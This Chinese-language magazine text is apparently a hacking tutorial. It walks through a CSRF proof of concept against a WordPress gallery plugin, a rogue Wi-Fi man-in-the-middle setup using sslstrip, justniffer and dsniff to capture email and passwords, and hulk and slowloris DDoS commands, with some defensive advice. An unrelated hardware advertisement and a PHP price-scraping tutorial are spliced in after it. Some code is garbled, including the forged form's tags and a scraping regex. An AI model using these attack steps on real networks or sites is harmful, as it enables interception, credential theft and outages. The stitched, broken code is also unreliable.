黑客攻击有多种方式，但这里我们将关注通过网络进行的攻击，因为这些攻击最有可能影响普通人。其中一些攻击，例如 Anonymous 复仇攻击，已经上了头版新闻，因为它们使网站离线，或在首页上添加涂鸦。其他攻击每天都在进行，常常让罪犯赚取巨额资金，却很少被报道。如果你运营一个网站，你肯定会在服务器日志中看到许多攻击。如果你是网络用户，你更有可能在电子邮件垃圾邮件中看到这些攻击的结果（你知道那些看起来很奇怪的链接吗？），或者你可能不幸在服务器被入侵时丢失了个人信息。

> “我们将打开盖子，看看黑客使用的一些工具”

无论如何，我们都生活在一个日益互联的世界中，我们的更多贵重物品被锁在数字金库中，而不是物理保险箱中。我们要么坐以待毙，希望政府和网络公司会保护我们，要么我们可以了解对我们的威胁并保护自己。

我们将打开黑客正在使用的一些工具的盖子，因为你只有了解自己要防范什么才能保护自己。我们将介绍四种不同类型的攻击——拒绝服务（DDOS）、中间人攻击、跨站脚本和注入攻击——并向你展示罪犯现在是如何使用它们的，以及你如何阻止自己或你的网站成为它们的受害者。

### Legalities

有关黑客攻击的法律因国家而异，因此我们无法提供任何具体的法律建议。然而，可以肯定地说，在未经许可的网站上执行本文所述的任何技术在大多数国家都是非法的。如果你为公司或组织工作，请确保在开始之前获得相关人员的书面许可。这样，如果有人注意到发生了什么，就不会产生混淆。

## Crack WordPress

攻击易受攻击的 Web 应用。

随着 HTML5 变得更加强大，JavaScript 变得更快，Web 应用变得越来越普遍。Ubuntu 和其他一些发行版现在将其视为一流的应用程序，Mozilla 正在构建一部使用这些功能实现所有功能的智能手机。然而，它们也带来了以前不存在的全新漏洞集合。

我们将使用 WordPress 作为示例来研究这一领域。我们并不是因为 WordPress 是个糟糕的应用程序才选择它，而是因为它的流行和可扩展性使其成为一个特别的目标。这里的攻击绝不以此平台为唯一目标，它们常见于许多 Web 应用程序——无论它们是否是 CMS。


由于我们相信展示攻击的工作原理比仅仅解释它们更有价值，我们创建了一个虚拟机（Linux Format Vulnerable Machine_Lova），它运行一个易受攻击版本的 WordPress。（从 `www.linuxformat.com/files/hackman2015.zip` 下载它，并在 `HackWeb` 文件夹中查找。拿到它后，按照下面的逐步指南将其启动并运行。你需要 `VirtualBox`，但除此之外它应该在几乎任何发行版上都能工作。我们使用 WordPress 的博客格式向你展示如何入侵它，所以只需启动它并开始吧。

一旦你找到了攻击，博客也会为你提供如何保护自己的详细信息，因此在继续之前，看看你是否能堵住安全漏洞。

### Protect yourself

如果你运行任何类型的 Web 应用，了解风险至关重要。漏洞可能不仅仅局限于应用程序本身，因为攻击者可能能够控制服务器。如果你运行的是现成软件（例如 WordPress），一个经验法则是：事情越简单、越标准，就越容易保持领先地位，也越容易保持最新。务必确保你使用的是所有内容的最新版本。入侵检测系统和入侵防御系统（IDS 和 IPS）可以帮助减少攻击者造成的损害，但它们并不是能神奇解决安全问题的银弹。同样，你应该运行并正确配置 `SELinux` 或 `AppArmor`。

如果你使用的是自定义编写的 Web 应用，你需要确保熟悉攻击者可能使用的各种技术。`OWASP`（开放 Web 应用安全项目）网站是开始的好地方（`https://www.owasp.org`）。如果你在网站上保存任何重要数据，你应该寻求专业的安全建议，了解如何保持其安全。

> 根据 Web Hacking Information Database，跨站脚本（XSS）是针对网站的第二常见攻击形式。


### Levels of protection

不存在完美的安全性。这在现实世界中是如此，在数字世界中也是如此。本文中的信息会让你更安全，但不会让你绝对安全。安全始终是便利与漏洞之间的平衡，选择这些相互竞争的领域的重要性有多大是个人问题。本文只能触及 Web 安全的表面，而 Web 安全是一个复杂的话题，也是计算机安全的一部分。如果你认为自己可能遭受有决心的攻击，我们强烈建议你寻求专家帮助。专业的安全顾问和渗透测试人员可以帮助你加强防御并将攻击者拒之门外。

### Step by step: Set up the environment


- 1. Import the VM

  Click (or double-click) Linux Format Vulnerable Machine_Lova, then click 'Import' on the dialog box.

- 2. Start the VM

  Double-click the new machine to start it. Once it has booted, it will display a blue screen, giving various URLs.

- 3. Browse the site

  Start a web browser (any should work) and point it to the top URL from the previous step (labelled Web).

## 发现漏洞

如何识别并利用你网站中的弱点。

如果你看过 LXF Vulnerable WordPress VM（一个易受攻击的 WordPress 虚拟机），你很可能已经得出结论：一旦知道了漏洞在哪里，利用它们很容易，但你会想知道如何着手发现它们。为了回答这个问题，我们给自己设定了一个挑战：发现并利用我们站点中的一个新漏洞。

首先，我们安装了一个攻击代理。这种工具会拦截来自你浏览器的 HTTP 请求，并用它们构建出你所浏览站点的地图。使用这个工具，即使你无法访问源代码，也能了解你正在攻击的是什么。它还能让你了解服务器和浏览器之间来回传递了哪些信息。

我们选择了 OWASP 的 ZAP（可从 `http://code.google.com/p/zaproxy` 获取，并随 `HackWeb` 文件夹提供）。要使用它，只需解压并运行（无需安装），命令如下：

```
tar zxvf ZAP_2.0.0_Linux.tar.gz
cd ZAP_2.0.0
./zap.sh
```

2.0.0 版本需要 Java 1.7 或更高版本。如果你的版本较旧（比如较旧的 Ubuntu 12.04 LTS 默认版本），你可以使用 ZAP 1.4.1 版本，或者手动安装较新的 Java 版本。在我们的 Precise Pangolin 机器上，我们安装了 `openjdk-7-jre` 软件包，然后将 `zap.sh` 的最后一行改为：

```
exec /usr/lib/jvm/java-7-openjdk-1.6/bin/java $JMEM -XX:PermSize=256M -jar $BASEDIR/zap.jar org.zaproxy.zap.ZAPStart
```

这会让代理运行在 8080 端口，所以你需要将浏览器设置为通过这个端口传输数据。

在 Firefox 中，通过“编辑 > 偏好设置”，然后“高级 > 网络 > 设置”，将单选按钮改为“手动代理配置”，HTTP 代理设为 localhost，端口设为 8080。

> “任何渗透测试的第一阶段都是收集信息”

现在，每当你访问一个页面，你应该会在 ZAP 中看到一个或多个条目。ZAP 还会尝试帮助你，将它认为有漏洞的项目标记为黄色到红色，具体颜色取决于它认为问题有多严重。蓝色标记仅用于提供信息。不过，这些评级不能全信。许多被标记的页面实际上并不存在漏洞，而许多真正有漏洞的页面却被漏掉了（这是我们用过的所有自动化安全扫描器都存在的问题）。

软件设置好之后，我们就可以开始攻击了。任何渗透测试的第一阶段都是信息收集。ZAP 确实有一些用于自动扫描站点的工具，但我们更倾向于从手动扫描开始。这意味着在浏览器中浏览站点，同时让 ZAP 在你浏览时进行编目。你浏览站点时越彻底，获得的信息就越多。

当我们浏览应用程序时，我们是在寻找攻击向量。从根本上说，攻击向量是向网站传递信息的任何方式。在 HTTP 中，它们有两种形式：GET 请求中传递的参数（即 URL 中问号后面的部分），以及 POST 请求（没有像 ZAP 这样的代理时很难看到这些请求，但它们列在“请求”选项卡中）。其中任何一个都可以被修改，以发送我们想要的任何信息。正如你在示例中看到的（针对 WordPress 博客的攻击，如果站点没有正确验证这些输入，精心构造的恶意数据有时就能被偷偷传入）。


这里，我们发现了一个缺失的 `nonce` 字段，它使我们能够利用该表单。

一旦我们对受害站点有了完整的了解，就可以开始寻找攻击点。即使是在像我们这样简单的 WordPress 站点上，也有数百个可供研究的向量，但大多数不会存在漏洞。入侵网站的艺术之一在于知道应该重点关注哪些向量。例如，我们可以尝试攻击大多数页面上都有的 `page_id` 参数，但该参数对 WordPress 来说如此核心，以至于它一直受到大量关注。它可能存在漏洞，但很可能是一条难走的入侵之路。我们最好在较少使用的区域中寻找弱点。从历史上看，插件（add-ons）对攻击者来说远比主应用程序更有价值。

## 跨站请求伪造

我们注意到，在“警报”选项卡下，ZAP 将许多页面列为存在跨站请求伪造（CSRF）漏洞。这是一种通过创建另一个伪装成 Web 应用 HTTP 请求的网站，从而诱骗 Web 应用接受输入的攻击方式。如果你随后能让一个已通过身份验证的用户打开你的恶意网站，他们的浏览器就会发送他们的身份验证 cookie，从而允许你的恶意 HTTP 请求以他们的用户身份被执行（如果你没有完全理解，别担心，在我们进行攻击时会变得更加清晰）。

WordPress 通常使用 `nonce`（一次性随机数）来阻止这种攻击。这是在创建表单时传递给浏览器的一个随机数。如果相同的数字随表单数据一起传回服务器，那么服务器就知道该表单是由本网站的用户提交的。如果不是，服务器就会知道该表单是由其他网站提交的，并直接丢弃数据。然而，我们注意到其中一个页面没有 `nonce`。它似乎是一个直接使用 cookie 验证的 HTTP POST 请求。这意味着任何 HTML 表单（无论位于哪个网站）都可以向应用程序的这一部分提交数据。这看起来是发起 CSRF 攻击的完美目标。这个页面正是 Ungallery 的设置页面（关于该请求，请参见左下角的截图）。

现在的技巧是创建一个生成相同 HTTP 请求的新页面。这是一个 POST 请求，而使用 HTML 表单最容易伪造。我们创建了一个包含以下内容的新文件：


```
<html>
<head>
<title>Test site for csrf in Ungallery</title>
</head>
<body>
<form action="http://site/wp-admin/options-general.php?page=ungallery-settings" method="POST">
<input type="hidden" name="_nt_submit_hidden" value="Y">
<input type="hidden" name="images_path" value="%2Froot%2Fvar%2Fwww%2Fimages%2F">
<input type="hidden" name="URI" value="http%3A%2F%2F192.168.133.143%2F">
<input type="hidden" name="gallery" value="%3Fpage_id%3D9">
<input type="hidden" name="cache_dir" value="%2Fvar%2Fwww%2Fwordpress%2Fwp-content%2Fcache%2F">
<input type="hidden" name="columns" value="5">
```


“快速开始”选项卡是 ZAP 2 中新增的。只需输入你想攻击的 URL，它就会爬取网站并搜索漏洞。这是一个很好的起点，但它不会发现所有内容。

```
<input type="hidden" name="thumbnail" value="190">
<input type="hidden" name="browse_view" value="440">
<input type="hidden" name="hidden" value="hidden">
<input type="hidden" name="gallery2" value="">
<input type="hidden" name="images2_path" value="">
<input type="hidden" name="gallery3" value="">
<input type="hidden" name="images3_path" value="">
<input type="hidden" name="gallery4" value="">
<input type="hidden" name="images4_path" value="">
<input type="hidden" name="gallery5" value="">
<input type="hidden" name="images5_path" value="">
<input type="hidden" name="gallery6" value="">
<input type="hidden" name="images6_path" value="">
<input type="hidden" name="Submit" value="">
value="Save Changes">
<form>
<script>document.forms[0].submit();</script>
</head>
```

如你所见，这是一个新的 HTML 表单，它向 Ungallery 设置页面提交数据。由于没有 nonce，Ungallery 在收到正确 cookie 后会自动接受。如果有管理员权限的人打开该文件，它就会更改设置。在真实攻击中，可以通过向管理员发送一个诱人的链接，或者将带有自动运行脚本的 U 盘遗落在公共场所来实现。当然，这并不是最具破坏性的攻击，但它可以用来泄露本应保密的图像。

当然，故事并没有就此结束。我们实践负责任的信息披露。这意味着，虽然我们乐于公开漏洞的细节，但我们确保首先告知了开发人员。

如你所见，发现漏洞就是把知道该寻找什么和在应用程序中搜索结合起来。这可能是一个漫长而缓慢的过程。有一些自动化扫描器（例如 ZAP 内置的扫描器），但一开始最好手动进行，这样你才能知道发生了什么。许多渗透测试人员更喜欢手动操作，因为手动能比自动扫描器彻底得多。

## 中间人

黑帽如何攻击个人网页浏览器。

到目前为止，我们只看了攻击网站的方法，但这只是故事的一半。我们也可以攻击浏览网页的人。XSS（例如 WordPress VM 中的那种）就是其中一种方式，但在这里我们将重点放在窃取数据上。

有几种方法可以做到这一点。例如，你可以在电脑上安装恶意软件并用它来拦截网络流量。然而，对于本教程，我们将使用最简单的方法——将我们的恶意电脑置于受害者和互联网之间，使其所有流量都通过它路由。这就是所谓的中间人（MITM）攻击。你可以用网线来做，甚至可以用 ARP 欺骗攻击在虚拟环境中进行，但我们将使用 Wi-Fi 来做。

与本文中的所有攻击一样，在大多数国家滥用此攻击都是非法的。这不仅仅是指滥用你获取的数据，而是以任何方式窃取数据。

为了测试这一点，我们使用了一台通过以太网连接的迷你笔记本电脑来创建一个无线热点——人们在咖啡馆连接时通常不会考虑的那种。

首先，你需要软件来设置接入点。我们使用了 `hostapd`。它在某些发行版的仓库中，有时也可以从 `http://hostap.epitest.fi/hostapd` 获取。你还需要一个 DHCP 服务器来确保连接到你热点的客户端能获得 IP 地址。我们使用了 `dhcpd3`（在 Ubuntu 中为 `dhcpd3-server` 包）。

两者都需要配置文件。我们在 `www.linuxformat.com/files/HackMan2015` 的 `HackWeb` 文件夹中包含了示例文件。安装完成后，获取配置文件后，你就可以用以下命令设置你的热点：

```
sudo hostapd -Bdd hostapd1.conf
sudo dhcpd -4 -cf dhcp2.conf wlan0
```

如果你不在当前目录下，可能需要为两个 `.conf` 文件添加路径。

你还需要告诉你的机器将互联网连接转发到另一个网络连接，否则任何连接到你的机器都无法访问互联网。

```
sudo bash
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

也许互联网最令人惊讶的事情是，绝大多数信息都没有加密。它只是以明文发送，任何 MITM 都可以读取，而无需费力破解加密。

`Wireshark` 是一个很棒的工具（见第 102 页），用于在数据包级别查看通过你的恶意电脑路由的数据，但大多数时候我们不需要深入到那个级别。相反，我们可以使用 `justniffer` 来重建通过我们恶意热点的所有网络流量。

> “互联网上的绝大多数信息都未加密”

此工具通常不包含在发行版的仓库中。要在 Ubuntu 上安装它，你需要添加一个 PPA：

```
sudo add-apt-repository ppa:oreste-nottelli/ppa
sudo apt-get update
sudo apt-get install justniffer
```

在其他发行版上，你需要自己编译。详情请见 `http://justniffer.sourceforge.net/#!/install`。

它有一系列选项，可以执行各种网络监控。我们将使用其重建所见网页的能力。首先，创建一个数据目录。在本示例中，它将位于作者的主目录中，但也可以在任何地方（如果计划长时间运行，将其放在单独的驱动器上是个好主意）。


`Sslstrip` 会保存所有未加密流量的副本。简单的 `grep` 就可以提取出任何凭据（不，它们不是真实账户）。

```
mkdir /home/ben/data
```

```
sudo justniffer grab-http-traffic -d /home/ben/data -U ben -i wlan0
```

在这两种情况下，你需要将 `ben` 改为你想要保存文件的用户名。`-U` 选项告诉它以哪个用户身份保存文件。

如果使用电脑、平板电脑或手机连接到热点并浏览网页，你应该会看到数据目录被未加密网页的每个文件填满。这将包括他们阅读的任何基于网络的电子邮件的内容，如果这些邮件不是通过 HTTPS 传输的话（Gmail 使用 HTTPS，因此无法读取：大多数其他邮件都不使用）。

当然，你可能想要拦截的并非所有内容都通过 HTTP 传输，还有许多其他协议未加密（如 FTP 和 Telnet）。幸运的是，还有其他工具可以帮助你攻击它们。例如，`dsniff`（`http://monkey.org/~dugsong/dsniff` 且在 `HackWeb` 文件夹中）会从网络流量中提取所有未加密的密码。


这两种工具都是被动的。这意味着它们会复制数据，但否则会让数据原封不动地通过。我们可以更进一步，但为此我们需要使用主动攻击，具体来说是 `sslstrip`（见 `HackWeb` 文件夹）。

这利用了网页链接的特性，以及网络上有些页面加密、有些不加密的事实。基本上，它会监视所有未加密的网络流量，并等待指向 `HTTPS` 站点的链接或重定向。然后它开始一次 `MITM` 攻击，其中它（`sslstrip`）请求网站的安全版本，然后以明文 `HTTP` 的形式提供给浏览器。

站点可以阻止这种攻击，但这超出了本文的范围。然而，我们发现几个主要网站（包括 `Facebook` 和 `Yahoo！`）容易受到攻击。我们已将问题报告给他们的安全团队。`Facebook` 回复说他们建议启用安全浏览设置。然而，这未能阻止攻击，当我们指出这一点时，他们也没有回复我们。`Yahoo` 根本没有回复。

## 获取加密

你可以把互联网看作邮政服务。数据通常以未加密的方式发送，就像寄明信片一样。任何人都可以在这之间阅读它，从你发送到它到达为止，同样适用于以 `HTTP`、`FTP`、`Telnet` 或其他未加密明信片形式发送的信息。有时这无关紧要——你可能不在乎你的奶奶的邮递员知道西班牙的天气很宜人——有时这很重要——你可能不希望你的邮递员知道你的银行账户详情。网上也是如此。如果你不想让你的信息被公开读取，请确保使用加密协议（`HTTPS`、`SFTP`、`SSH`、`SCP` 等）。

为了让这变得更容易，电子前沿基金会（`EFF`）制作了一个 `Firefox` 浏览器扩展（`Chrome` 版本处于 alpha 阶段）名为 `HTTPS Everywhere`。它确保你默认使用站点的加密版本（如果存在）。如果站点没有加密版本，它仍会提供未加密版本，因此你仍需保持警惕。

正如我们通过 `sslstrip` 所见，使用开放网络时你需要特别小心，即使站点通常是加密的。请记住在输入任何信息之前检查你是否真的使用 `HTTPS`。

加密协议会保持数据私密，但它们不会掩饰你使用的是哪些服务器。例如，入侵者可能能够发现你在使用 `gmail.com`，但他们无法找到你的用户名或你发送或接收的电子邮件。如果你需要匿名性以及加密，你需要使用 `VPN` 或 `Tor`（`http://torproject.org`）来混淆或为所有流量添加误导。请注意，使用这些工具时仍需使用加密协议以提供保护。


> 使用 `justniffer`，我们能够抓取发送到连接到热点的手机的电子邮件。

## 证书攻击

所有形式的加密都基于密钥。这些有点像密码，因为它们让你解密文档。确保加密通信双方都知道解密密钥始终是一个挑战。在网络上，使用证书。这些证书由受信任的机构生成，并保证你获取的数据（以及使用的密钥）确实来自其声称的站点。此站点认证过程容易受到攻击。例如，如果你能将证书加载到浏览器中作为受信任的机构，你就可以生成浏览器会信任的自己的伪造证书。这样，你就可以使用伪造证书设置中间人攻击。

为了帮助渗透测试人员检查加密站点，`ZAP` 具有创建这些受信任机构并使用它们运行攻击的能力。还有许多商业代理旨在大规模执行此操作，以便例如公司可以检查员工在线做什么。

底线是：如果你无法控制电脑，他们就可以监视你通过网络发送的一切，无论 `HTTPS` 加密与否。

# DDOS

用信息淹没服务器。

`DDoS`（拒绝服务 `DDOS`）也许是近年来宣传最广泛的攻击方式。`Anonymous` 以及其他知名黑客行动主义团体，都曾用它对政府、金融机构以及任何惹怒他们的组织进行有效打击。宣传较少的是，`DDOS` 也已成为犯罪团伙使用的武器。但在谈论原因之前，让我们先回顾一下 `DDOS` 攻击是什么以及它们如何运作。

基本上，`DDOS` 攻击会阻止服务器执行其正常功能，从而拒绝用户使用其服务。通常这是 `Web` 服务器，但不一定如此。`DDOS` 攻击并非通过入侵计算机或获取访问权限来实现这一点，而是通过使服务器的某个方面过载。

例如，攻击者可以用虚拟数据饱和服务器的网络连接，使其无法传输恶意数据，或者占用 `CPU` 的所有周期，使其无法处理其他请求。

由于大多数现代服务器拥有高带宽连接、强大的 `CPU` 和大量内存，你通常无法仅用家庭宽带连接将其压倒。为此，攻击者经常使用多台计算机同时攻击目标。对于黑客行动主义者来说，这通常是由一群同情该事业的人完成的；对于罪犯来说，这通常是通过僵尸网络完成的。

> > “`DDOS` 攻击会阻止服务器执行其正常功能”

有许多工具可以帮助你运行 `DDOS` 测试。`Anonymous` 的首选工具是 `High Orbit Ion Cannon`，因为它对不熟练的用户来说很容易使用。然而，我们将来看一下 `hulk`。它可从 `http://packetstormsecurity.com/files/112856/HULK-Http-Unbearable-Load-King.html` 获取。

```
unzip hulk.zip
python hulk.py http://<site>

To test it, you can set up an HTTP server quickly with:
python -m SimpleHTTPServer
and then attack it with:
python hulk.py http://<ip address>:8000
```

我们发现这能相当有效地使网站瘫痪。然而，可能的，目的是最大化服务器。做到这一点使用的带宽远少于 `hulk` 风格的暴力攻击，但并非所有 `Web` 服务器软件都易受攻击。要运行，只需使文件可执行，然后使用以下命令启动它：

```
chmod +x slowloris.pl
./slowloris.pl -dns <site>
```

同样，这也瞬间击垮了我们的小型 `Python` 服务器。

# Protect yourself

保护自己免受 `DDOS` 攻击，简单来说就是最大限度地减少每个恶意数据包对你的打击。这意味着在它们进入你的网络时尽快阻止尽可能多的恶意数据包。为此，你需要防火墙，并且需要知道如何配置它以识别并丢弃相关数据包。

具体如何操作取决于你的防火墙，而且随着攻击者更改数据包以绕过防火墙规则，你需要更改的规则处于不断的猫鼠游戏中。然而，我们要说的是：确保在被攻击之前就知道如何保护自己。尝试使用提供的各种 `DDOS` 工具，并练习将其屏蔽，因为你不想在网站已经宕机后再学习这一点。运行 `DDOS` 工具也是检查你的网站在重负载下表现如何的一种极佳方式。

或者，你可以将服务器放在可以为你处理此事的网络上。诸如 `CloudFlare` 之类的服务会将你的服务器置于其防火墙之后（虚拟上，你无需重新连接服务器）。这意味着你无需担心防火墙配置的复杂性。


我们能够在 `Nexus 7` 上运行 `hulk` 的修改版本。它不如在台式机上有效，但仍然使我们的 `Web` 服务器不堪重负。随着平板电脑和手机变得更加强大，当连接到开放 `Wi-Fi` 热点时，它们可能成为强大的攻击者。


> > `Slow lorises` 是一种生活在南亚和东南亚的灵长类动物。如果你想知道它长什么样，只需在文本编辑器中打开 `Perl` 文件即可。

## 认真对待硬件？


## 显卡问题！

性能装备与游戏

# PC 格式

显卡超级测试

你的下一块 `GPU`

为你的预算挑选最佳显卡

- `ON TEST` 价格在 £100-£700 的顶级显卡

- `REVIEWED` 英伟达新款 `GTX 900` 系列

- `OVERCLOCK` 让你的 `GPU` 性能更强

为以下做好准备

`OCULUS RIFT`

打造完美的下一代虚拟现实机器

`GTX 980`


免费数字版！

立即下载到你的设备！

`BUILD IT!`

花费 £468 构建一台全高清游戏 `PC`

外加终极 `PC` 购买指南

现已上架 `APPLE NEWSSTAND`

在英国发售当天即可下载！

## 性能建议

面向严肃玩家

每月发售


## PHP：自定义网站抓取

根据你的个人规格，我们将帮助你从网站上找到你想要的确切数据，且没有任何障碍。

抓取网站是从互联网上任何网站获取黄金的一种非常定制化的技术。抓取网站的原因无穷无尽。然而，我们共同拥有的一个目的就是找到下一个绝佳的优惠，而抓取可以让你找到你所寻找的确切内容。通过一点包含正则表达式的编码，你可以找到网页中，或各个网页中的模式，从而为你检索所需的数据。

本文将演示如何抓取 `www.amazon.com` 以确定商品的售价。本文中的示例将使用 `Regex`（正则表达式）抓取数据。使用正则表达式查找精确数据是一种“样样通”的方法，可以找到源代码中存在的任何内容的开头和结尾。一旦你对 `Regex` 熟悉起来，你就可以找到任何拼图的碎片。


本次抓取教程的编码将使用 `PHP` 完成，但由于它将使用正则表达式分析网页内容，因此也可以轻松修改为 `Perl` 使用。

当你开始一个抓取项目时，你需要确定你想要抓取的确切页面或页面。如果你只是在抓取单个页面或产品，代码将有一个非常简单的开始模式和结束模式。然而，如果你打算抓取一个包含大量商品的完整分类，你可能需要运行循环和不同的函数，以便抓取属于该特定分类的许多单个商品和页面。

为了带你了解整个过程，第一个示例将展示如何抓取单个产品。然后，文章将继续并解释如何从各个卖家处抓取同一产品。抓取网页背后的基本概念是将网页转换为字符串。一旦你有了字符串，你就可以对其进行排序并收集所需的数据。最简单的方法使用名为 `file_get_contents()` 的函数，而另一种方法使用 `curl` 函数。

### 使用 PHP

使用 `file_get_contents()` 函数是将 URL 转换为字符串的最简单方法。一旦你对这种方法感到舒适，你可能想转而使用 `Curl`，它具有 `file_get_` 提供的许多功能


`Curl` 已启用并且功能可用。

### 输入远程内容并输出所需内容

网页开发人员和程序员有各种方法从网页获取所需内容。两种非常流行的方法是 `RSS` feed 和 `API`。前者允许你抓取 `XML` 格式的文件，你可以按需排序和输出。后者通常需要某种注册才能获得访问你所需内容的凭据。通常，你想要的输出以数组形式返回，你可以用循环输出，就像任何其他数组一样。

不幸的是，以上两种选项可能不存在，或者你只是想要一些更方便自己获取的精确信息。好吧，这里就是模式匹配和模式替换发挥作用的地方。对于 `PHP` 程序员来说，`preg_match()` 和 `preg_replace()` 函数将允许你找到任何模式并用所需字符替换任何模式。

## 监测变化之风

假设你为某个网站构建了一个自定义爬虫，让它抓取所有想要的类别并找到优质的条目。一两个月后，你回去检查时发现没有任何输出。

你快速浏览一下网站，发现有些数据本应被爬虫抓取到。这时，你可能需要打开相关文件，找出问题所在。很大的可能性是

网站修改了代码，旧的匹配模式已经不再适用。因此，检查代码和模式，进行相应更新，才能继续获取你想要的数据。

`contents()` 函数不具备这一点。只要你的服务器安装了 `PHP`，这个函数就能正常工作。

在本例中，这个单一的电子书产品——可以是任何电子书，但我毫不掩饰地要推荐我自己的——可以在这里找到：www.amazon.ca/MYSQL-Fundamentals-Snippets-Kent-Elchuk-ebook/dp/BOOBSUD72。这个电子书产品在亚马逊的 `Kindle` 图书中只会有一个条目。

因此，这就是你想要抓取的 `URL`，以便以你期望的价格获取这本书。

为了知道要抓取什么，你需要在浏览器中加载该 `URL`，并仔细查看其源代码，因为你将利用这些代码来查找模式并提取所需的数据。使用 `Firefox` 和 `Chrome` 浏览器时，查看源代码非常简单，只需在页面上“右键单击”，然后选择“查看页面源代码”即可。

请注意，源代码可能从类似第 82 行的位置开始。你需要同时查看源代码和实际网页，以便从源代码中找到对应的代码块。为什么？因为当你查看网页时，会看到一个价格，比如 `$2.84`。这就是你想从源代码中抓取的内容。

### 简单抓取

当你快速搜索源代码时，会发现 `$2.84` 这个价格在字符堆中出现了两次。你可以选择任意一个代码块进行模式匹配，但我们会使用包含 `<input>` `HTML` 标签以及 `displayedGiftPrice` 名称的那个代码块。由于 `displayedGiftPrice` 在页面中只出现一次，因此这是一个非常简单的价格抓取。

在最简单的层面上，代码如下：

```
$data = file_get_contents('http://www.amazon.com/MYSQL-Fundamentals-Snippets-Kent-Elchuk-ebook/dp/BOOBSUD72?ref=sr_1_1&ie=UTF8&qid=1366253046&sr=8-1&keywords=php+mysql+fundamentals+and+snippets');
// Get the price match /
preg_match('/displayedGiftPrice" value="(.*?)" /', $data,$desired_match);
print_r($desired_match);
echo $desired_match[1];
```

现在，让我们逐行分析这段代码。第一个字符串 `$data` 获取你想要抓取的目标页面的 `URL`。在本例中，它是亚马逊上某个特定产品的 `URL`。

之后，应使用 `preg_match` 函数来匹配源代码中所需的代码块。`preg_match` 函数从字符串中识别匹配项，并将其作为数组返回。第一个括号 `(.*?)` 将接受 `displayedGiftPrice value"` 和结尾双引号 `"` 之间的任意字符。

本质上，这个匹配会返回一个包含两个值的数组。一个值是整个匹配项，另一个是你要获取的目标值。在本例中，我们要获取的值当然就是价格。

在本例中，将检查单个产品，以收集其 `ID`、名称和价格。以下是找到精确所需数据的编码的简要说明。首先，`URL` 通过 `file_get_contents()` 函数变成一个字符串。

然后，创建 `Regex` 数组，其中包含三个元素，用于匹配所需模式。第一个元素查找 `ID`，第二个元素查找名称，最后一个元素识别价格。

创建数组后，数组中的每一项都会被迭代，以查找每一条详细信息，不会附带任何多余、无用的数据片段。每次循环运行时，一个新的项将被添加到名为 `$my_array` 的数组中。循环运行三次后，`$my_array` 将包含产品 `ID`、名称和价格。如何使用这些数据由你决定。一个简单的想法是检查价格。例如，如果价格低于 `$399`，你可以给自己发一条短信或电子邮件。

```
$data = file_get_contents('http://www.amazon.com/MYSQL-Fundamentals-Snippets-Kent-Elchuk-ebook/dp/BOOBSUD72?ref=sr_1_1&ie=UTF8&qid=1366253046&sr=8-1&keywords=php+mysql+fundamentals+and+snippets');
preg_match('/displayedGiftPrice" value="(.*?)" /', $data,$desired_match);
print_r($desired_match);
echo $desired_match[1];
```

```
foreach ($regex as $regex) {
preg_match_all($regex, $data, $posts, PREG_SET_ORDER);
echo $posts[0][1];
$my_array[] = $posts[0][1];
}
```

```
$regex = '/span\'class="Ir1g"bold">(.*?)</ul\'class="rsltR\'s/d/Greay\'sim';
preg_match_all($regex, $data, $posts, PREG_SET_ORDER);
foreach ($posts as $post) {
```

在本例中，我们使用一个由多个供应商销售的单件商品。当抓取多个商品时，你需要


实时显示理想的名称和价格。

### 快速提示

`File_get_contents()` 和 `Curl` 函数可以加载网页并将源代码转换为字符串！

要找到一个会出现在列表中所有条目上的重复匹配模式。

这项练习的整个想法是识别所需的数据并确保它可以追溯到卖家。这样，当你的商品达到期望的价格点时，你就可以收到一封电子邮件、短信以及商品链接，以便你可以毫不费力地购买它。

## 多个商品

本教程将展示如何在搜索词为 'Kindle Fire HDX 8.9' 时抓取 `Kindle` 板块中的所有商品。

当进行此精确查询时。www.amazon.com 返回七个结果。对这七个结果该怎么办？

一个选择是只提取我们想要的内容，而另一个选择是为单独的商品制定标准。例如，对于商品 `Kindle Fire HDX 8.9' HDX Display, Wi-Fi and 4G LTE, 32 GB`，你可能只愿意支付低于 `$529` 的价格，而你愿意为名为 `Kindle Fire HDX 7' HDX Display, Wi-Fi, 16 GB` 的商品花费 `$269`。所以，这些就是期望的商品。


现在我们进入有趣的部分，即构建一个自定义抓取器，它只会找到这些商品并检查期望的标准。虽然另一种方法是通过制作 URL 数组并在循环中运行它们，但我们已经选择了抓取单个 url 就是我们要做的事情。由于其他卖家和二手商品可能会在以后出现在该页面上，因此该页面可以作为一个良好的起点，并且是一个很好的学习练习。

搜索 Kindles: Kindle Fire HDX 8.9

`http://www.amazon.com/s/ref=sr_nr_n_13y7m_3A2I0213011%2Ck%3A3AKindle+Fire+HDX+8.9+keywords=Kindle+Fire+HDX+8.9&ie=UTF8&qid=1386458068&rnid=2941120011`

在对期望的页面进行分析后，有七个商品。现在，模式分析变得有趣了，因为其中六个有价格，一个没有。因此，这个没有价格的 'Junker' 条目将被过滤掉，因为它目前不可用。

深入研究源代码的细节，你会看到有价格的商品与该商品相关联有一个特殊的 HTML 类，而没有价格的商品则没有。该代码本可以以一种即使没有价格类也可能存在的形式显示，但它并没有。因此，构建此页面的抓取器的绝对关键是绝对确保每个条目都有一个开始模式和结束模式，可以为每个条目匹配。在这种情况下，HTML 代码 `<span class="lrg bold">` 和 `<ul class="rstlr dkGrey">` 包含使用开始和结束模式所需的所有详细信息。

与之前使用 `preg_match()` 函数的示例不同，此示例将使用 `preg_match_all()` 函数在整个页面中多次匹配此模式。

以下是正在发生的事情。文件字符串是通过使用 `file_get_contents()` 函数创建的。其次，名为 `$regex` 的字符串显示要匹配的模式。

```
'<span\sclass="lrg\sbold">(.*?)<ul\sclass="rstlr\sd kGrey\sim'
```

这看起来可能很混乱，但它遵循严格的模式匹配规则。首先，模式存在于两个正斜杠之间；一个在 `<span` 之前，一个在 `sim` 之前。现在，这里是对整个模式的解释。

代码将以 `<span` 开头，后跟 `\s*`。这意味着“零个或任意数量的空白”。由于 HTML 代码中 `<span` 后面有空白，因此添加了 `\s*`。之后，下一个序列是 `class="lrg` 后跟更多空白 `\s*` 和标签末尾 `bold >`。

### 代码内部

